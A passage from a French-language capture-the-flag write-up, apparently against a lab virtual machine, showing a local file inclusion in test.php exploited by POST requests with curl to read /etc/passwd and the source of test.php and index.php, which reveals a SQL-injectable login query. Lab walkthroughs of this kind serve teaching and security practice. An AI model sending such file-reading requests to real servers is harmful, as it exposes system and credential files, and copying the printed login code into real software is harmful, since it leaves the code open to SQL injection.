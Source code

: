 Un exemple ? Le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. La méthode [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre ```file``` est inclus dans l'URL) est testée en premier  : aucun résultat. La méthode [POST](https://www.w3schools.com/tags/ref_httpmethods.asp) (le paramètre est situé dans le corps de la requête) est ensuite testée : bingo !

```console
root@blinils:~# curl http://192.168.56.107/test.php
'file' parameter is empty. Please provide file path in 'file' parameter

root@blinils:~# curl http://192.168.56.107/test.php?file=/etc/passwd
'file' parameter is empty. Please provide file path in 'file' parameter

root@blinils:~# curl http://192.168.56.107/test.php --data "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
--snip--
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

Cette LFI nous donne l'occasion de consulter non seulement le code source de la page ```test.php``` elle-même...

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/test.php"
--snip--
		header("Content-Description: File Transfer"); 
			
		header('Content-Transfer-Encoding: binary');
		header('Expires: 0');
		header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
		header('Pragma: public');
		header('Accept-Ranges: bytes');
		header('Content-Disposition: attachment; filename="'.basename($download).'"'); 
		header('Content-Length: ' . filesize($download));
		header('Content-Type: application/octet-stream'); 
		ob_clean();
		flush();
		readfile ($download);
--snip--
```

... mais également le code source de la page d'accueil ```index.php```...

```console
root@blinils:~# curl http://192.168.56.107/test.php --data "file=/var/www/index.php"
--snip--
if(isset($_POST['login']))
{
	$uname=str_replace('\'','',urldecode($_POST['un']));
	$pass=str_replace('\'','',urldecode($_POST['ps']));
	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
	$result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
	   echo "You are allowed<br>";
	   $_SESSION['logged']=true;
	   $_SESSION['admin']=$row['username'];
	   
```